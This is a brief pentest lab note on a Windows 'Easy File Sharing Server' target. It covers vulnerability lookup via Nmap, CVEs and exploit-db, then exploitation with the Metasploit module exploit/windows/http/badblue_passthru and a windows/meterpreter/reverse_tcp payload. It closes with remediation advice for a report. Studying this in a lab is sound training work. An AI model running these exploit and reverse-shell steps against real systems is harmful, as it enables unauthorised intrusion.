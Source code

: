 # Windows: Easy File Sharing Server

In this lab we will perform an vulnerability assessment using Nmap.

**Note**: Sometimes, just performing a google search for CVEs with the service name and version of an application running in the target could be enough to find vulnerabilities.

**Note**: Sometimes CVEs and NVDs have really old information that won't probably be useful for you at the moment. In those cases, go to the exploit database, there are plenty os scripts and information that might prove useful.

**Note**: In this lab we are working with msfconsole as we discovered an exploit that can be used there in the exploit db. Use the command `search <name>` in order to check for your desired exploit. In this case the exploit is `exploit/windows/http/badblue_passthru`.

**Note**: In metasploit payload options are not visible until they are set. In this case for `exploit/windows/http/badblue_passthru`, we set up the payload like this: `set payload windows/meterpreter/reverse_tcp`. Don't forget to check your options again to see what is left. By the way, LHOST can be set by setting the interface name.

**Note**: In this case we had an available metasploit module to perform the exploit. However, if you know python, ruby or perl, you can easily set it up yourself.

**Note**: When performing the pentest, there are many things to consider looking at this badblue example. It might be internal, it might be firewalled, but it is using http so anyone listening can pull out those packets. There are possible remediations that can be implemented. So try to think around that when you prepare your report.